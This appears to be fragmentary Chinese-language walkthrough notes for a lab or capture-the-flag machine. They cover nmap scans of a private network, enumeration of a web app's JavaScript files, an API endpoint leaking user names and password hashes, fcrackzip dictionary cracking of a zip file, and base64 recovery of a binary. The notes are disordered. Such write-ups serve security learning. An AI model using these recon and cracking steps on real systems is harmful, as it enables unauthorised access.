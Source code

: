 # mynew
静态源码发现调用了javascript目录和js文件在前端
fcrackzip -u -D -p /root/Desktop/rockyou.txt dayu .zip类型的文件继续爆破！
2）Mongodb提权 
js木马： 
二进制文件传输到本地：
base64 -d /usr/local/bin/backup
vi base64.txt
cat base64.txt | base64 -d > backup

les枚举
# 

VMware双击打开nat模式即可！

1、nmap 192.168.253.0/24 -sP
MAC Address: 00:50:56:E1:B2:64 (VMware)
Nmap scan report for 192.168.253.176

2、nmap 192.168.253.176 -p- -A
22/tcp   open  ssh    OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
3000/tcp open  hadoop-datanode Apache Hadoop


3、web信息枚举

http://192.168.253.176:3000/
访问进去右上角有ligon登录模块点击：
http://192.168.253.176:3000/login

<script type="text/javascript" src="vendor/jquery/jquery.min.js"></script>
	<script type="text/javascript" src="vendor/bootstrap/js/bootstrap.min.js"></script>
	<script type="text/javascript" src="vendor/angular/angular.min.js"></script>
	<script type="text/javascript" src="vendor/angular/angular-route.min.js"></script>
	<script type="text/javascript" src="assets/js/app/app.js"></script>
	<script type="text/javascript" src="assets/js/app/controllers/home.js"></script>
	<script type="text/javascript" src="assets/js/app/controllers/login.js"></script>
	<script type="text/javascript" src="assets/js/app/controllers/admin.js"></script>
	<script type="text/javascript" src="assets/js/app/controllers/profile.js"></script>
	<script type="text/javascript" src="assets/js/misc/freelancer.min.js"></script>

查看静态源码发现调用了javascript目录和js文件在前端！


在查看view-source:http://192.168.253.176:3000/assets/js/app/controllers/home.js
静态源码发现调用了：/api/users/

访问：
http://192.168.253.176:3000/api/users/
发现这是前端的JSON！包含四个用户名密码信息：
myP14ceAdm1nAcc0uNT
dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af

tom
f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240
